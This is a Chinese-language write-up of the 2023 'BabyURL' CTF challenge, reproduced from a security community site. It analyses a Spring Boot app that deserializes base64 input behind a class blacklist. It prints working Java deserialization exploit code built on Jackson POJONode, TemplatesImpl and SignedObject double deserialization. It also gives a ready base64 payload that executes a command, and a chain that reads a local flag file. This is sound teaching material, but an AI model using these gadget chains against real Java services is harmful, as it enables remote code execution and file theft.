








# 2023巅峰极客-BabyURL复现分析-先知社区

> **来源**: https://xz.aliyun.com/news/16115  
> **文章ID**: 16115

---

因为没有做出来，所以特地复现一下，从头开始  
使用cfr进行处理反汇编

```
java -jar .\cfr-0.152.jar .\ctf-0.0.1-SNAPSHOT.jar --outputdir ./SourceCode

```

进行反汇编  
用jd-gui查看pom.xml的依赖，在当前项目复制上去

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <modelVersion>4.0.0</modelVersion>
  <parent>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-parent</artifactId>
    <version>2.7.3</version>
    <relativePath/> <!-- lookup parent from repository -->
  </parent>
  <groupId>com.yancao</groupId>
  <artifactId>ctf</artifactId>
  <version>0.0.1-SNAPSHOT</version>
  <name>YancaoCTF_Java</name>
  <description>YancaoCTF_Java</description>
  <properties>
    <java.version>1.8</java.version>
  </properties>
  <dependencies>
    <dependency>
      <groupId>org.springframework.boot</groupId>
      <artifactId>spring-boot-starter</artifactId>
    </dependency>

    <dependency>
      <groupId>org.springframework.boot</groupId>
      <artifactId>spring-boot-starter-test</artifactId>
      <scope>test</scope>
    </dependency>
    <dependency>
      <groupId>org.springframework.boot</groupId>
      <artifactId>spring-boot-starter-web</artifactId>
    </dependency>
  </dependencies>

  <build>
    <plugins>
      <plugin>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-maven-plugin</artifactId>
      </plugin>
    </plugins>
  </build>

</project>

```

看到了里面有什么依赖就只有springboot，之前比赛的时候没有做出来是掉到了死胡同，这题应该是signedObject和jackson的利用，来进行黑名单绕过，我们先分析题目吧  
com/yancao/ctf/YancaoCtfJavaApplication.java是springboot启动的程序



com/yancao/ctf/bean/URLHelper



自己重写了一个反序列化类，并且反序列化的时候调用URLVisiter的visitUrl方法，将访问内容写入/tmp/file，由于我这边是windows系统将/tmp/file修改成F:\file  
​  
com/yancao/ctf/bean/URLVister



不能以file开头，file://被禁用了，不要紧，url:file://即可  
​  
com/yancao/ctf/controller/IndexController.java，绝对的关键

```
package com.yancao.ctf.controller;

import com.yancao.ctf.bean.URLHelper;
import com.yancao.ctf.util.MyObjectInputStream;
import java.io.ByteArrayInputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.InputStream;
import java.nio.charset.StandardCharsets;
import java.util.Base64;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
    public class IndexController {
        @RequestMapping(value={"/"})
        @ResponseBody
        public String index() {
            return "Hello World";
        }

        @GetMapping(value={"/hack"})
        @ResponseBody
        public String hack(@RequestParam String payload) {
            byte[] bytes = Base64.getDecoder().decode(payload.getBytes(StandardCharsets.UTF_8));
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
            try {
                MyObjectInputStream ois = new MyObjectInputStream((InputStream)byteArrayInputStream);
                URLHelper o = (URLHelper)ois.readObject();
                System.out.println(o);
                System.out.println(o.url);
            }
            catch (Exception e) {
                e.printStackTrace();
                return e.toString();
            }
            return "ok!";
        }

        @RequestMapping(value={"/file"})
        @ResponseBody
        public String file() throws IOException {
            File file = new File("/tmp/file");
            if (!file.exists()) {
                file.createNewFile();
            }
            FileInputStream fis = new FileInputStream(file);
            byte[] bytes = new byte[1024];
            fis.read(bytes);
            return new String(bytes);
        }
    }

```

定义了三个路由，/和/hack和/file，将获取的payload进行base64解码，然后用MyObjectInputStream进行反序列化，并进行强转，访问/file的时候，页面回显内容  
​  
com/yancao/ctf/util/MyObjectInputStream.java



这就是难住的地方，"java.net.InetAddress", "org.apache.commons.collections.Transformer", "org.apache.commons.collections.functors", "com.yancao.ctf.bean.URLVisiter", "com.yancao.ctf.bean.URLHelper"进行了黑名单设置  
如何绕过呢  
<https://boogipop.com/2023/05/16/Jackson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%80%9A%E6%9D%80Web%E9%A2%98/>  
我在F:\flag放了一个flag  
​  
通过signedObject二次反序列化来进行黑名单绕过

### 非预期

因为黑名单没有禁用  
大体的链子就是  
BadAttributeValueExpException#readObject->BaseJsonNode.toString  
它的toString也是可以直接触发任意的getter的，可以想起来TemplatesImpl#getOutputProperties  
已经知道public class POJONode extends ValueNode，但是public abstract class ValueNode extends BaseJsonNode所以可以使用POJONode



但是写到一半会发现报错  
而它拥有writeReplace函数，有这个函数就意味着序列化时不会走正常渠道，而是走他这个writeReplace方法，这是序列化的规则，详细参考  
怎么办呢，我们拿javassist删除

```
try {
            CtClass jsonNode = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
            CtMethod replace = jsonNode.getDeclaredMethod("writeReplace");
            jsonNode.removeMethod(replace);
            ClassLoader ClassLoader = Thread.currentThread().getContextClassLoader();
            jsonNode.toClass(ClassLoader,null);
        }catch (Exception e){}

```

或者在当前目录下重写一个BaseJsonNode  
把writeReplace删除


成功，接下来就是把序列化的内容变成base64编码输出了



我们通过.replaceAll("\s\*","")处理一下  
获取到base64

```
rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50LkJhZEF0dHJpYnV0ZVZhbHVlRXhwRXhjZXB0aW9u1Ofaq2MtRkACAAFMAAN2YWx0ABJMamF2YS9sYW5nL09iamVjdDt4cgATamF2YS5sYW5nLkV4Y2VwdGlvbtD9Hz4aOxzEAgAAeHIAE2phdmEubGFuZy5UaHJvd2FibGXVxjUnOXe4ywMABEwABWNhdXNldAAVTGphdmEvbGFuZy9UaHJvd2FibGU7TAANZGV0YWlsTWVzc2FnZXQAEkxqYXZhL2xhbmcvU3RyaW5nO1sACnN0YWNrVHJhY2V0AB5bTGphdmEvbGFuZy9TdGFja1RyYWNlRWxlbWVudDtMABRzdXBwcmVzc2VkRXhjZXB0aW9uc3QAEExqYXZhL3V0aWwvTGlzdDt4cHEAfgAIcHVyAB5bTGphdmEubGFuZy5TdGFja1RyYWNlRWxlbWVudDsCRio8PP0iOQIAAHhwAAAAAXNyABtqYXZhLmxhbmcuU3RhY2tUcmFjZUVsZW1lbnRhCcWaJjbdhQIABEkACmxpbmVOdW1iZXJMAA5kZWNsYXJpbmdDbGFzc3EAfgAFTAAIZmlsZU5hbWVxAH4ABUwACm1ldGhvZE5hbWVxAH4ABXhwAAAAK3QAIGNvbS55YW5jYW8uY3RmLlNpZ25lZE9iamVjdENoYWludAAWU2lnbmVkT2JqZWN0Q2hhaW4uamF2YXQABG1haW5zcgAmamF2YS51dGlsLkNvbGxlY3Rpb25zJFVubW9kaWZpYWJsZUxpc3T8DyUxteyOEAIAAUwABGxpc3RxAH4AB3hyACxqYXZhLnV0aWwuQ29sbGVjdGlvbnMkVW5tb2RpZmlhYmxlQ29sbGVjdGlvbhlCAIDLXvceAgABTAABY3QAFkxqYXZhL3V0aWwvQ29sbGVjdGlvbjt4cHNyABNqYXZhLnV0aWwuQXJyYXlMaXN0eIHSHZnHYZ0DAAFJAARzaXpleHAAAAAAdwQAAAAAeHEAfgAVeHNyACxjb20uZmFzdGVyeG1sLmphY2tzb24uZGF0YWJpbmQubm9kZS5QT0pPTm9kZQAAAAAAAAACAgABTAAGX3ZhbHVlcQB+AAF4cgAtY29tLmZhc3RlcnhtbC5qYWNrc29uLmRhdGFiaW5kLm5vZGUuVmFsdWVOb2RlAAAAAAAAAAECAAB4cgAwY29tLmZhc3RlcnhtbC5qYWNrc29uLmRhdGFiaW5kLm5vZGUuQmFzZUpzb25Ob2RlAAAAAAAAAAECAAB4cHNyADpjb20uc3VuLm9yZy5hcGFjaGUueGFsYW4uaW50ZXJuYWwueHNsdGMudHJheC5UZW1wbGF0ZXNJbXBsCVdPwW6sqzMDAAZJAA1faW5kZW50TnVtYmVySQAOX3RyYW5zbGV0SW5kZXhbAApfYnl0ZWNvZGVzdAADW1tCWwAGX2NsYXNzdAASW0xqYXZhL2xhbmcvQ2xhc3M7TAAFX25hbWVxAH4ABUwAEV9vdXRwdXRQcm9wZXJ0aWVzdAAWTGphdmEvdXRpbC9Qcm9wZXJ0aWVzO3hwAAAAAP////91cgADW1tCS/0ZFWdn2zcCAAB4cAAAAAF1cgACW0Ks8xf4BghU4AIAAHhwAAABXMr+ur4AAAA0ABgBAARDYWxjBwABAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAcAAwEABjxpbml0PgEAAygpVgEABENvZGUMAAUABgoABAAIAQARamF2YS9sYW5nL1J1bnRpbWUHAAoBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7DAAMAA0KAAsADgEABGNhbGMIABABAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7DAASABMKAAsAFAEAClNvdXJjZUZpbGUBAAlDYWxjLmphdmEAIQACAAQAAAAAAAEAAQAFAAYAAQAHAAAAGgACAAEAAAAOKrcACbgADxIRtgAVV7EAAAAAAAEAFgAAAAIAF3B0AARjYWxjcHcBAHg=

```

访问/hack输入payload  
这个链子有机会成功，只能说有机会  
​

### 预期解

我们的入口点是  
SignedObject#getObject，



this.content是可控的



初始化的时候直接进行了序列化  
所以我们可以进行二次反序列化  
如何触发getObject呢，还记得我们非预期的  
BaseJsonNode.toString  
它的toString也是可以直接触发任意的getter的  
exp：

```
package com.yancao.ctf;

import com.fasterxml.jackson.databind.node.POJONode;
import com.yancao.ctf.bean.URLHelper;
import com.yancao.ctf.bean.URLVisiter;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.security.*;
import java.util.Base64;


public class App
{
    public static void main( String[] args ) throws IOException, ClassNotFoundException, NoSuchAlgorithmException, NoSuchProviderException, InvalidKeyException, SignatureException, NoSuchFieldException, IllegalAccessException {
        ClassPool pool = ClassPool.getDefault();
        URLHelper urlHelper = new URLHelper("FILE:///F:\\flag.txt");
        urlHelper.visiter = new URLVisiter();
        try {
            CtClass jsonNode = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
            CtMethod writeReplace = jsonNode.getDeclaredMethod("writeReplace");
            jsonNode.removeMethod(writeReplace);
            ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
            jsonNode.toClass(classLoader, null);
        } catch (Exception e) {
        }
        KeyPairGenerator keyPairGenerator;
        keyPairGenerator = KeyPairGenerator.getInstance("DSA");
        keyPairGenerator.initialize(1024);
        KeyPair keyPair = keyPairGenerator.genKeyPair();
        PrivateKey privateKey = keyPair.getPrivate();
        Signature signingEngine = Signature.getInstance("DSA");
        SignedObject signedObject = new SignedObject(urlHelper,privateKey,signingEngine);

        POJONode node = new POJONode(signedObject);
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, node);


        ByteArrayOutputStream baor = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baor);
        oos.writeObject(val);
        oos.close();
        System.out.println(new String(Base64.getEncoder().encode(baor.toByteArray())));
        baor.close();

    }
}

```

我们发散一下思维我们是不是可以进行TemplateImpl的二次反序列化，如果在TemplateImpl被禁的情况下  
exp：

```
package com.yancao.ctf;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.yancao.ctf.util.MyObjectInputStream;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import javassist.CtMethod;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URLEncoder;
import java.security.*;
import java.util.Base64;

public class TemplateSignedObject {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clz.setSuperclass(superClass);
        CtConstructor cc = new CtConstructor(new CtClass[]{}, clz);
        cc.setBody("Runtime.getRuntime().exec(\"calc\");");
        clz.addConstructor(cc);
        byte[][] bytes = new byte[][]{clz.toBytecode()};
        TemplatesImpl templates = new TemplatesImpl();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "xxx");
        setValue(templates, "_tfactory", null);
        try {
            CtClass jsonNode = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
            CtMethod writeReplace = jsonNode.getDeclaredMethod("writeReplace");
            jsonNode.removeMethod(writeReplace);
            ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
            jsonNode.toClass(classLoader, null);
        } catch (Exception e) {
        }
        POJONode node = new POJONode(templates);
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        setValue(val, "val", node);
        KeyPairGenerator keyPairGenerator;
        keyPairGenerator = KeyPairGenerator.getInstance("DSA");
        keyPairGenerator.initialize(1024);
        KeyPair keyPair = keyPairGenerator.genKeyPair();
        PrivateKey privateKey = keyPair.getPrivate();
        Signature signingEngine = Signature.getInstance("DSA");
        SignedObject signedObject = new SignedObject(val,privateKey,signingEngine);
        POJONode node1 = new POJONode(signedObject);
        BadAttributeValueExpException val1 = new BadAttributeValueExpException(null);
        Field valfield = val1.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val1, node1);
        ByteArrayOutputStream baor = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baor);
        oos.writeObject(val1);
        oos.close();
        System.out.println(URLEncoder.encode(new String(Base64.getEncoder().encode(baor.toByteArray()))));
        ByteArrayInputStream bais = new ByteArrayInputStream(baor.toByteArray());
        ObjectInputStream ois = new MyObjectInputStream(bais);
        Object o = ois.readObject();
        baor.close();
    }
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
}

```

### 拓展，其实有个fastjson二次反序列化跟这个一样的作用是fastjson的JsonObject

​
